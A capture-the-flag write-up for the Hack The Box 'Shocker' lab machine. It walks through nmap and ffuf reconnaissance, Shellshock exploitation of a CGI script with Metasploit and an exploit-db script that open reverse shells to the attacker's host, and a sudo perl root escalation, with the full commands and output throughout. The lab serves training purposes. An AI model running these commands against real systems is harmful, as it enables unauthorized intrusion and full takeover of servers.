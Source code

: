 # Shocker-HTB
Shocker is a Linux machine that is rated as easy, we can get a shell by using Metasploit

# Recon
I started by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV  10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 22:00 EDT
Nmap scan report for 10.10.10.56
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```
## ffuf
I will be using ffuf to fuze web directories.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u http://10.10.10.56/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
:: Progress: [3024/3024] :: Job [1/1] :: 1512 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
So we need to fuzz more inside ```cgi-bin```. After a long time of fuzzing I was able to find the file:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w big.txt -u http://10.10.10.56/cgi-bin/FUZZ.sh          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/cgi-bin/FUZZ.sh
 :: Wordlist         : FUZZ: big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

user                    [Status: 200, Size: 119, Words: 19, Lines: 8]
:: Progress: [3025/3025] :: Job [1/1] :: 1512 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
So there is a file called ```user.sh```. At this point there is 2 ways to get a shell, by using Metasploit or by using a exploit-db exploit.

## Metasploit
Module: ```exploit/multi/http/apache_mod_cgi_bash_env_exec```

Proof:
```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options 

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 10.10.10.56
RHOSTS => 10.10.10.56
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.28:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.56:59904) at 2020-08-25 22:21:01 -0400

meterpreter > getuid 
Server username: no-user @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
```
## exploit-db
Exploitation: https://www.exploit-db.com/exploits/34900

```
┌──(kali㉿kali)-[~/Desktop/HTB/Shocker]
└─$ python shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.28 lport=5555 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) 
```

# User Flag
Get the User flag:
```
10.10.10.56> cat user.txt
2ec24e11...3e16695b233
```

# Root Flag
By runing ```sudo -l``` we can see that we can run ```perl``` with sudo.
```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
To get a root shell you just need to run this command ```sudo /usr/bin/perl -e 'exec "/bin/sh"' ```
```
10.10.10.56> sudo /usr/bin/perl -e 'exec "/bin/sh"'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)
```
And we can get root flag :)
```
10.10.10.56> cat root.txt
52c271560...60dc1ca467
```

Note: you can find more like this command ```sudo /usr/bin/perl -e 'exec "/bin/sh"' ``` from https://gtfobins.github.io/

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
